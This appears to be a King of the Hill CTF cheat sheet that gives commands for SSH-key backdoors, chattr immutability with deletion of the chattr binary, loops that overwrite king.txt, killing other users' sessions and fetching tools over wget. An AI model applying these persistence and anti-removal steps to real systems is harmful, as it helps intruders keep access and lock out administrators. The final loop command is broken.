 Stragegy 

`try to get into root and echo your name on king.txt` `this gives you contant point which is better than finding flag`

Scan 

`do rustscan than nmap` 
 `rustscan gives quicker scan result`
 
 backdoor 

`always make a backdoor once you get into the shell` 
 `incase someone kill you on shell` `or` `shell got disconnected you have your backdoor`
 
 how to create backdoor

`generate ssh keygen` `ssh-keygen`
 
 defend you ssh key
 
 `if someone finds your ssh there is high chance that they delete your key` `so it's better if you defend your ssh key`
 
 `try to put your ssh on some unexpected place like /etc /usr`
 
 `make your ssh immutable so that no one can delete` `with following command`
 
      chattr -R +i .ssh
      
 `now you likely to do is to delete the chattr binary from /usr/bin so that no one can make it mutable again`
 
 *Ultimate Defences*
 
 `now you need to defend your position`
 
`try the same` 
`once you put your name on king.txt` `make it immutable` `with the command chattr just like above on ssh` 

    chattr +i /root/king.txt
    
`now delete the chattr again` 

or 

Run a while loop to echo your name on king.txt so that if any one even change the name then after a second that king.txt again contains your name again

    while true; do echo "prakashchand72" > king.txt ; done 
 
now you can start find other flag

    find \ -name flag.txt 2>/dev/null
    
sometime you can also kill other user from shell
    
`type`

    who

`this shows the ip and pty number`
`find which is your pty and seeing your ip` `and start kill others pty`

    ps aux | grep "pty"

or

    ps aux | grep "ssh"
    
`now get the proccess of id of other and kill them`

    kill {pid no here}
    
commmunicate with others

`you can also broadcast the message to others on the shell with the wall command`

    wall hello this is prakash
    
Breaking the Defence 

 `if you got situation when someone does` `chattr +i king.txt` `then you can uplaod your own chattr and make it mutable again`
 
 `on your local machine go to your /usr/bin and transfer the file of chattr to the machine`
 
`something like` 

    python3 -m http.server 8080
    
    wget ip:8080/chattr 
    
    chmod +x chattr 
    
 `now on your king.txt`
 
    chattr -i king.txt

*Unbreakable Defence own exploit*

    while true; do "prakashchand72 is the king"; done 
    
    
 cc@ prakashchand72 
